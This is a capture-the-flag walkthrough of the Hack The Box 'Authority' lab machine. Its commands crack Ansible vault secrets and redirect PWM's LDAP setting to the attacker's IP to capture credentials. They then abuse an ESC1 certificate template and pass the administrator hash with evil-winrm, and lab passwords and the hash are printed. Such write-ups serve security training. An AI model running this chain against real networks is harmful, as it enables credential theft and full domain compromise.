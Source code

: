 # [Authority](https://app.hackthebox.com/machines/authority)

```bash
nmap -p-  --min-rate 5000 10.10.11.222 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8443,9389,47001 10.10.11.222 -Pn
```

![alt text](img/image-1.png)


Let's look at `SMB` access via `smbmap` command.

```bash
smbmap -H 10.10.11.222 -u 'anonymous'
```

![alt text](img/image-2.png)

We have access to `Development` share, let's get into this share and grab files as many as possible.

For this, I will use `smbclient`. And donwload all files as below.
```bash
smbclient -N \\\\10.10.11.222\\Development
```

```bash
prompt off
recurse on
mget *
```

![alt text](img/image-3.png)


I get this files and see their `encrypted` values.

![alt text](img/image-4.png)


Let's take their encrypted values as seperately and save into files.

![alt text](img/image-5.png)


Now we need to convert this values into `crackable` format, for this I will use `ansible2john` command.

```bash
ansible2john ldap_admin_password_vault pwm_admin_login_vault pwm_admin_password_vault | tee vault_hashes
```

![alt text](img/image-6.png)


Let's crack this via `hashcat` command.

```bash
hashcat -m 16900 vault_hashes /usr/share/wordlists/rockyou.txt --user
```

![alt text](img/image-7.png)

Three of them password values equal to '!@#$%^&*'.

Let's decrypt all of them via `ansible-vault decrypt`.
```bash
cat ldap_admin_password_vault | ansible-vault decrypt
cat pwm_admin_login_vault | ansible-vault decrypt
cat pwm_admin_password_vault | ansible-vault decrypt
```

![alt text](img/image-8.png)

svc_pwm: pWm_@dm!N_!23

Let's connect into `PWM` via `svc_pwm` user's credentials.

![alt text](img/image-9.png)


Now, I just go to `Configuration Editor`, replace `LDAP_URLS` via my attacker's ip address by specifying port number.

```bash
ldap://10.10.14.5:389
```

![alt text](img/image-10.png)


And I will turn on `responder` to see `LDAP` events.

```bash
responder -I tun0
```

![alt text](img/image-11.png)


I take this credentials.

svc_ldap: lDaP_1n_th3_cle4r!


Let's connect into machine via `evil-winrm`.
```bash
evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```

user.txt

![alt text](img/image-12.png)


Let's check `ADCS` for `Privilege Escalation` on our target machine via `crackmapexec` command

```bash
crackmapexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M adcs
```

![alt text](img/image-13.png)


Now, let's find vulnerable certificate templates via `certipy` command.
```bash
certipy find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable
```

![alt text](img/image-14.png)

![alt text](img/image-15.png)


I find `ESC1` vulnerability, let's abuse this.

```bash
certipy req -username 'svc_ldap' -password 'lDaP_1n_th3_cle4r!' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
```

But it doesn't work as because if we look at `Enrollment Rights` , we cannot see `Domain Users`, we see `Domain Computers`, that's why let's add computer.

For this, I will use `addcomputer.py` script of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/addcomputer.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name dr4ks -computer-pass "Dr4ks1234" -dc-ip 10.10.11.222
```

![alt text](img/image-16.png)


Now, we can request for TGT (`.ccache` file) via `certipy req` command.
```bash
certipy req -username 'dr4ks$' -password 'Dr4ks1234' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
```

![alt text](img/image-17.png)


Let's try to get `administrator` hash via `certipy auth` cmdlet.

```bash
certipy auth -pfx administrator_authority.pfx
```

![alt text](img/image-18.png)


I got `administrator`'s hash. Let's connect into machine via `Pass-The-Hash` attack by using `evil-winrm` command.

```bash
evil-winrm -i 10.10.11.222 -u administrator -H '6961f422924da90a6928197429eea4ed'
```


root.txt

![alt text](img/image-19.png)